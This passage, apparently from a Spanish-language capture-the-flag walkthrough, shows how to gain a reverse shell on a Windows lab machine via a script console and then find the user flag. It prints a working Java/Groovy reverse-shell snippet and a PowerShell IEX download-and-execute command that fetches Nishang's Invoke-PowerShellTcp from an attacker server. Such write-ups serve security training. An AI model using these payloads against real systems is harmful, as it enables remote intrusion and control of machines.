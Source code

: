 ![](body/a306810c954fb45b5684e1cec0dfde27afc31430.png)

Tenemos 2 vías para obtener Shell, obteniendo shell con CMD u obteniendo shell con Powershell. Vamos a ver las 2 opciones.

### Obteniendo reverse shell con CMD:

```bash
String host="10.10.14.34";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

(Podemos cambiar la variable a "powershell.exe", pero no va a funcionar, no obtendremos una shell completa).

![](body/9e9951dd17046b84f11ae217334a1ef2baece6fb.png)

### Obteniendo reverse shell con Powershell

Para esta opción vamos a utilizar la reverse shell de [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) "Invoke-PowerShellTcp.ps1":

Editamos el PS1, copiamos la siguiente línea y la pegamos al final del archivo, de esta forma se ejecutará una vez invocado el archivo:

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.34 -Port 443
```

Levantamos el servidor http para compartir el archivo PS1 y ejecutamos el siguiente comando en la consola de scripts que hemos visto anteriormente:

```bash
ps = "C:\\Windows\\sysnative\\WindowsPowershell\\v1.0\\powershell.exe IEX(New-Object Net.WebClient).downloadString('<http://10.10.14.34/Invoke-PowerShellTcp.ps1>')"
ps.execute()
```

Vemos la petición del recurso en el servidor HTTP:

![](body/072919b60150a702b25495dedb28d0acbec8bd8e.png)

Obtenemos la shell deseada:

![](body/c74dc4ac0cfee80cb4d292e9ea817b6d26db8c60-1.png)

### User Flag

En el directorio Desktop del usuario "**_Kohsuke_**" podemos visualizar la flag de "user".
